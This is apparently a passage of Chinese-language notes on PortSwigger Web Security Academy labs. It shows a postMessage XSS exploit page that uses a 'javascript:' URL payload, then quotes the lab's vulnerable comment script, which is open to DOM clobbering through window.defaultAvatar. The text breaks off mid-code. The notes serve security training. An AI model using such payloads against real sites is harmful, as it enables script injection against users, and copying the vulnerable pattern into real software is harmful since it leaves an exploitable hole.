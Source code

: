 ```html
<script>
  const evilPayload = { type: "load-channel", url: "javascript:print()" };
</script>
<iframe
  src="https://0a0300520390853e80784465006e00f0.web-security-academy.net/"
  onload="this.contentWindow.postMessage(JSON.stringify(evilPayload),'*')"
></iframe>
```

## Lab: Exploiting DOM clobbering to enable XSS

| Dimension | Description                                                                                                 |
| --------- | ----------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/dom-based/dom-clobbering#how-to-exploit-dom-clobbering-vulnerabilities |
| Lab       | https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering         |

觀察 Comment 頁面有 `loadCommentsWithDomClobbering.js`

```js
function loadComments(postCommentPath) {
  let xhr = new XMLHttpRequest();
  xhr.onreadystatechange = function () {
    if (this.readyState == 4 && this.status == 200) {
      let comments = JSON.parse(this.responseText);
      displayComments(comments);
    }
  };
  xhr.open("GET", postCommentPath + window.location.search);
  xhr.send();

  function escapeHTML(data) {
    return data.replace(/[<>'"]/g, function (c) {
      return "&#" + c.charCodeAt(0) + ";";
    });
  }

  function displayComments(comments) {
    let userComments = document.getElementById("user-comments");

    for (let i = 0; i < comments.length; ++i) {
      comment = comments[i];
      let commentSection = document.createElement("section");
      commentSection.setAttribute("class", "comment");

      let firstPElement = document.createElement("p");

      let defaultAvatar = window.defaultAvatar || {
        avatar: "/resources/images/avatarDefault.svg",
      };
      let avatarImgHTML =
        '<img class="avatar" src="' +
        (comment.avatar ? escapeHTML(comment.avatar) : defaultAvatar.avatar) +
        '">';

      let divImgContainer = document.createElement("div");
      divImgContainer.innerHTML = avatarImgHTML;

      if (comment.author) {
        if (comment.website) {
          let websiteElement = document.createElement("a");
          websiteElement.setAttribute("id", "author");
          websiteElement.setAttribute("href", comment.website);
          firstPElement.appendChild(websiteElement);
```